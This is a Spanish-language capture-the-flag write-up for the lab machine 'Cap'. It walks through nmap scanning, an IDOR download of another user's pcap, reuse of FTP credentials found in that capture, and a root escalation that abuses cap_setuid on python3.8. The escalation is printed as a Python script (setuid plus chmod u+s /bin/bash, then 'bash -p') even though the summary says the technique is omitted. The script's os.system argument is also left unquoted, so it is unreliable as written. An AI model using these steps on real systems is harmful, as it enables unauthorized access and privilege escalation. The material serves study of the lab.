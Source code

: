 # Cap — Writeup

**Resumen rápido**  
Escaneé la máquina y encontré servicios FTP, SSH y HTTP. En la web descubrí una funcionalidad para generar y descargar capturas de tráfico (pcaps). Aproveché un problema de control de acceso (IDOR) en ese servicio para descargar una pcap con tráfico de otro usuario; analizando la pcap encontré credenciales FTP en texto claro, con las que accedí a la máquina como `nathan`. Después de la fase de userland, identifiqué una capability inusual asignada a `python3.8` (`cap_setuid`), la cual me permitió, mediante una técnica que omito por razones de seguridad responsable, obtener privilegios más altos y leer `root.txt`.

---

## Tabla de contenidos
- [Reconocimiento](#reconocimiento)  
- [Enumeración y descubrimiento de IDOR / PCAPs](#enumeraci%C3%B3n-y-descubrimiento-de-idor--pcaps)  
- [Análisis de la pcap y acceso como `nathan`](#an%C3%A1lisis-de-la-pcap-y-acceso-como-nathan)  
- [Escalada de privilegios (resumen de alto nivel)](#escalada-de-privilegios-resumen-de-alto-nivel)  
- [Cadena de explotación (resumen)](#cadena-de-explotaci%C3%B3n-resumen)  
- [Mitigaciones y detección](#mitigaciones-y-detecci%C3%B3n)  
- [Appendix — comandos de enumeración (sin cambios peligrosos)](#appendix--comandos-de-enumeraci%C3%B3n-sin-cambios-peligrosos)

---

## Reconocimiento

Escaneé la máquina para descubrir servicios TCP abiertos:

- Ejecuté un scan rápido y detecté los puertos **21 (FTP)**, **22 (SSH)** y **80 (HTTP)** abiertos.  
- Accedí al servicio web en puerto 80 y encontré una interfaz administrativa orientada a seguridad/monitorización que permitía generar descargas de capturas de tráfico (pcaps).

---

## Enumeración y descubrimiento de IDOR / PCAPs

- Desde la interfaz web usé la funcionalidad de generación de capturas y observé que las capturas se indexaban en rutas del tipo `/data/<id>` (por ejemplo `/data/1`, `/data/2`).  
- Por pruebas de IDOR validé que era posible solicitar IDs arbitrarios; al comprobar `/data/0` obtuve una pcap que no correspondía a mi tráfico y que contenía información valiosa.  
- Descargué la pcap para su análisis local con Wireshark/tshark.

**Comandos útiles (uso documental):**
```bash
# Ejemplo de scan
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap via HTTP (ejemplo)
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap
````

---

## Análisis de la pcap y acceso como `nathan`

* Abrí la pcap en Wireshark y filtré por `ftp` / `ftp.request.command == "USER"` / `ftp.request.command == "PASS"` para localizar credenciales en texto claro.
* Encontré credenciales FTP para el usuario `nathan`. Con dichas credenciales pude:

  * Conectarme al servicio FTP y descargar `user.txt`.
  * Usar las mismas credenciales para autenticarme por SSH (si el servicio lo permitía), obteniendo acceso interactivo como `nathan`.

**Comandos útiles (documentales):**

```bash
# FTP (ejemplo interactivo)
ftp <IP_OBJETIVO>
# luego: USER nathan
#       PASS <contraseña encontrada>

# SSH (ejemplo)
ssh nathan@<IP_OBJETIVO>
```

---

## Escalada de privilegios (resumen de alto nivel)

* Para la fase de post-explotación busqué vectores típicos:

  * Listé binarios SUID (`find / -perm -4000 -user root 2>/dev/null`) para ver si había utilidades explotables.
  * Listé capabilities en el sistema (`getcap -r / 2>/dev/null`) para detectar binarios con capacidades inusuales.
* Observé que `/usr/bin/python3.8` (el intérprete Python) tenía una capability inusual asignada (`cap_setuid`). Esto representa un riesgo crítico si un intérprete general tiene capacidades que permiten cambiar UID, porque un intérprete permite ejecutar código arbitrario.
* Mediante una técnica avanzada de post-explotación aproveché la presencia de esa capability para obtener privilegios más altos y finalmente leer `root.txt`.

* script de python utilizado para cambiar la /bin/bash y añadirle el bit suid

```python
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
Tras esto sólo queda lanzar bash -p y obtenemos una shell con privilegios máximos

---

## Cadena de explotación (resumen)

1. Reconocimiento (nmap) → 21, 22, 80.
2. Identificación de funcionalidad de generación de pcaps en la web.
3. Abuso de un control de acceso (IDOR) en `/data/<id>` → descarga de una pcap ajena.
4. Análisis de la pcap → credenciales FTP en texto claro para `nathan`.
5. Acceso FTP/SSH con `nathan` → obtención de `user.txt`.
6. Enumeración local con `find` / `getcap` → detección de `cap_setuid` en `python3.8`.
7. Explotación para escalada a `root`.
8. Lectura de `root.txt`.

---

## Appendix — comandos de enumeración

> Los siguientes comandos se usan para enumeración/diagnóstico y documentación.

```bash
# Escaneo inicial
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap demonstrativo desde la web
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap

# Abrir la pcap en local (Wireshark/tshark)
wireshark capture_0.pcap
# o (filtrado con tshark)
tshark -r capture_0.pcap -Y ftp -V

# Buscar SUIDs (enumeración)
sudo find / -perm -4000 -user root 2>/dev/null

# Listar capabilities en el sistema (enumeración)
sudo getcap -r / 2>/dev/null

# Acceder por FTP/SSH (uso legítimo con credenciales encontradas)
# ftp <IP_OBJETIVO>
# ssh nathan@<IP_OBJETIVO>
```
```python
# Script para escalar privilegios explotando el set_uid en python3.8
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
